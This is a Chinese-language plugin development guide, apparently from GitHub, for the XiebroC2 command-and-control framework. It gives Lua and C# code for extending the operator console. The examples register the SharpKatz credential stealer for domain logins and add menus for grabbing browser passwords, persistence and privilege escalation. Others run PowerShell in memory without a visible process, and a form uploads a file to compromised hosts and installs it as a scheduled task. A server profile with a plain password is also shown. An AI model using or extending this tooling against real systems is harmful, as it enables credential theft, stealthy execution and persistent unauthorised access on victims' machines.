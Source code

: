 # 目录

- [1.扩展外部窗体](#1扩展外部窗体)
- [2.扩展Session 命令](#2扩展session-命令)
- [3.扩展功能菜单栏](#3扩展功能菜单栏)
- [4.菜单栏整理](#4菜单栏整理)
- [5.使用内置API扩展窗体](#5使用内置api扩展窗体)



在编写插件时，请仔细参考函数原型：[XiebroC2-PluginsFunctions](https://github.com/INotGreen/Xiebro-Plugins/blob/main/Function.md)



## 1.扩展外部窗体

xiebroC2提供了简单的插件接口，它可以降低插件编写的门槛，并且实现CobaltStrike那样的插件体系

例如要在控制端的顶部菜单栏添加一个shellcode分离加载器：

<video src="https://private-user-images.githubusercontent.com/89376703/311126700-913d66d5-fe82-459a-8b3d-ea73682a9bb7.mp4?" width="640" height="480" controls></video>



- 将Winform .Net程序转成XiebroC2的lua插件

```powershell
 Import-Module .\Convert-NetToLua.ps1
 Convert-NetToLua -infile .\Plugins.exe -Output a.lua -Name loader
```

在编写winform的时候需要注意的是，你要将入口点修改成下面这样，如果是Application.EnableVisualStyles启动，在被转成lua插件时，主控端加载会报错

```C#
internal static class Program
{
    /// <summary>
    /// 应用程序的主入口点。
    /// </summary>
    [STAThread]
    static void Main()
    {
         Form1 form1 = new Form1();
         form1.ShowDialog();
    }
}
```



## 2.扩展Session 命令

<img src="Image\\image-20240308134300864.png"  />



在命令列表中添加外部命令

```lua
AddCommand(
    "SharpKatz", --Name
    "Plugins\\SharpKatz.exe", -- FilePath
    "execute-assembly", --load type
    "Steal domain login credentials",  --Descripttion
    "SharpKatz -h" --Usage
)
```

- AddCommand第三个参数有三种加载方式，如果是.net 程序集则选择“execute-assembly”、“Inline-assembly” ，如果是C/C++/Golang/rust/nim编写的PE文件则选择RunPE
- SharpKatz命令添加成功

<img src="Image\\image-20240308144452120.png"  />



## 3.扩展功能菜单栏



```lua
AddMenuItemA("Pentest", null)
AddMenuItemB("GetIPInfo", "", function() Nopowershell("ipconfig", "1") end)
```

- AddMenuItemB比AddMenuItemA多一个点击事件的参数(类似回调函数)，lua中似乎无法支持重载，因此我用函数的A和B进行区分。


- Nopowershell可以在内存中执行非托管的powershell而无需启动Powershell.exe进程，实际上你可以参考[nopowershell](https://github.com/INotGreen/Nopowershell)的代码例子。


- 值得注意的是Nopowershell执行是否要创建子进程取决于Profile.json中的参数配置，如果Fork为flase则为无进程执行powershell


```json
{
    "TeamServerIP": "192.168.1.250",
    "TeamServerPort": "8880",
    "Password": "123456",
    "StagerPort": "4050",
    "Telegram_Token": "",
    "Telegram_chat_ID": "",
    "Fork": false,
    "Route": "www",
    "Process64": "C:\\windows\\system32\\notepad.exe",
    "Process86": "C:\\Windows\\SysWOW64\\notepad.exe",
    "WebServers": [],
    "listeners": [],
    "rdiShellcode32": "",
    "rdiShellcode64": "",
}
```



## 4.菜单栏整理

```lua
AddMenuItemA("Pentest", null)
AddMenuItemA("CollectInfo", null) --
AddMenuItemA("Grab browser Passwords", null)
AddMenuItemA("Persistence", null)
AddMenuItemA("Scheduled Tasks", null)
AddMenuItemB("Installation", "", SchTaskForm)
AddMenuItemB("Privilege", null, function() Sessionlog("Message") end)

AddMenuItemB("4.0", "", function() Nopowershell("ipconfig", "1") end)

local menuStructure = {
    ["Pentest"] = {"CollectInfo", "Persistence", "Privilege"},
    ["CollectInfo"] = {"Grab browser Passwords"},
    ["Persistence"] = {"Scheduled Tasks"},
    ["Scheduled Tasks"] = {"Installation"},
    ["Privilege"] = {"4.0"}
}
for parent, subs in pairs(menuStructure) do AddMenuItemsAsSubItems(parent, subs) end
```

通过这样的方式您可以整理菜单栏的父子关系

<img src="Image\image-20240308150949896.png" />



## 5.使用内置API扩展窗体

```lua
local function SchTaskForm()
    local IsOK = false
    local Form1 = CreateForm("sch", 422, 355)

    local Label1 = Addlabel(Form1, "Interval(min):", 17, 33, 133, 25)
    local Label2 = Addlabel(Form1, "Select File:", 31, 103, 114, 25)
    local Label3 = Addlabel(Form1, "Directory:", 28, 174, 114, 25)

    local addButton = AddSelectFileButton(Form1, "Select", 162, 100, 181, 33)
    local texBox1 = AddTextBox(Form1, 162, 31, 181, 33)
    local ComBox1 = AddComBox(Form1, 162, 174, 181, 33)
    local Button1 = AddButton(Form1, "Ok", 36, 234, 106, 37, function()
        if texBox1.Text ~= "" and ComBox1.Text ~= "" and addButton.Text ~=
            "Select" then -- The values of texBox1 and ComBox1 can't be empty strings, otherwise this window
            IsOK = true
            Form1:Hide()

        else
            IsOK = false
            MessageBoxA("adas")
        end
    end)

    local Button2 = AddButton(Form1, "close", 236, 234, 107, 37,
                              function() Form1:Close() end)
    Form1:ShowDialog()
    if IsOK then
        local FileName = GetFileName(addButton.Text)
        local UploadFilePath = ComBox1.Text .. "\\" .. FileName
        Upload(UploadFilePath, addButton.Text)
        InlineAssembly("Plugins\\Scheduled.exe", texBox1.Text)
    end
end

AddMenuItemB("Task installer", "", SchTaskForm)
```

